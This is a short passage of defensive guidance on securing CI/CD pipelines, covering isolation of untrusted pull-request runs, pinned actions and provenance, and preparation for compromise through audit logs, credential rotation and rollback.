- Keep untrusted pull-request execution separate from production credentials, protected environments, and privileged deployment infrastructure, with particular caution around `pull_request_target`.
- Protect the entire build-to-production chain using trusted and pinned actions, immutable artifacts, provenance, SBOMs, controlled registries, and verified deployment processes.
- Prepare for compromise rather than relying only on prevention: maintain action inventories, audit logs, known-good references, credential-rotation procedures, artifact rebuild processes, and tested rollback paths.